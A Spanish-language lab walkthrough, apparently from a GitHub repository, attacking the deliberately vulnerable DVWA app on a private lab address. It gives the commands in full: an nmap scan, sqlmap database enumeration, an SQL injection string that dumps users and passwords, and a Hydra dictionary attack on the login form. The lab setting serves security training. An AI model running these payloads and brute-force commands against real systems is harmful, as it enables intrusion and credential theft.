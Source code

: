 # Vulneración mediante el servicio SQL

No podemos iniciar a trabajar sin saber que tenemos alcance, por eso realizaremos un análisis de sus puertos y de los servicios que están disponibles.  
Para esto nos apoyaremos de la herramienta `nmap` con el siguiente comando:

```bash
nmap -sV 192.168.222.131 
```

![Escaneo de puertos con Nmap](https://github.com/user-attachments/assets/08d5d404-3bf6-40b6-aaba-69b70e00629e)

Se visualiza que el puerto 3306 presenta un servicio SQL que podemos aprovechar.  
Usaremos la IP de la máquina objetivo para detectar alguna página disponible.

![Detección de servicios web](https://github.com/user-attachments/assets/efb7d2b9-bd6c-4591-833c-6eca5b25a817)

Usaremos la opción de **DVWA**, esta nos brindará una página con un apartado de ingreso de usuario y contraseña.  
Verificamos si podemos hacer algo a gran escala con la herramienta **SQLMAP**, obviando la contraseña por defecto que nos brinda (usuario = admin y password = password).  
Para esto ingresaremos el siguiente comando:

```bash
sqlmap -u "http://192.168.222.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
```

![Uso de SQLMap](https://github.com/user-attachments/assets/18370ff9-5b22-4bc0-832d-7539ad8f3ec3)  
![Resultado de SQLMap](https://github.com/user-attachments/assets/e915762f-9519-4def-87cc-5dd7a94fe6a0)

Se puede verificar que por el momento la página tiene un nivel de seguridad alto (referente a una inyección SQL).

![Seguridad alta en DVWA](https://github.com/user-attachments/assets/846124b9-c38a-4efd-abfe-bdf39b769be6)

Configuraremos su parámetro de **"DVWA Security"**, esta vulnerabilidad nos permite configurar con facilidad el nivel de seguridad.

![Cambio de nivel de seguridad](https://github.com/user-attachments/assets/ce2d7c53-f174-4687-8b03-0ffad2a3b8f7)

Nos dirigimos al apartado de SQL injection, e ingresaremos el siguiente comando:

```
%' or '0'='0
```

Esto nos retornará de forma enlistada los usuarios con su contraseña correspondiente.  
Se debe tener en cuenta que esta función solo la deberían tener los administradores.

![Inyección SQL exitosa](https://github.com/user-attachments/assets/8ebdc8d4-b58e-46ab-974c-92dd6bc97baf)

A su vez, podemos ayudarnos de la herramienta **Hydra** para hacer un ataque de diccionario en la sección de logeo, con el comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.222.131 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

![Ataque con Hydra](https://github.com/user-attachments/assets/ab88b3fa-ca55-4275-9028-290171503895)
